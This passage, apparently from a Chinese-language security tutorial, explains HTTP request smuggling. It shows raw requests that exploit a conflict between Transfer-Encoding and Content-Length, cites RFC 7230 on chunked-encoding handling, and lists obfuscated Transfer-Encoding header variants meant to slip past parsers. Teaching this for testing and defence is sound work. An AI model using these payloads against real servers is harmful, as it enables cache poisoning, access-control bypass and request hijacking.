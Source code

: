 ```bash
GET /tests HTTP/1.1
Host:localhost
Dummy:Header
```

而如果存在 TE & CL 优先级问题的话，会被解析成两个请求：

```bash
GET / HTTP/1.1[CRLF]
Host:localhost[CRLF]
Content-length:56[CRLF]
Transfer-Encoding: chunked[CRLF] (ignored and removed, hopefully)
Dummy:Header[CRLF]
[CRLF]
0[CRLF]  (start of 56 bytes of body)
[CRLF]
GET /tmp HTTP/1.1[CRLF]
Host:localhost[CRLF]
Dummy:Header[CRLF] (end of 56 bytes of body, not parsed)
```

```bash
GET /tests HTTP/1.1
Host:localhost
Dummy:Header
```

### Bad Chunked Transmission

根据 [RFC7230 section 3.3.3](https://tools.ietf.org/html/rfc7230#section-3.3.3) ：

> If a Transfer-Encoding header field is present in a request and the chunked transfer coding is not the final encoding, the message body length cannot be determined reliably; the server MUST respond with the 400 (Bad Request) status code and then close the connection.

也就是说当接受到`Transfer-Encoding: chunked, zorg`的时候，应该返回 400 错误。

这类可以有很多绕过，比如：

```bash
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

GET / HTTP/1.1
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```
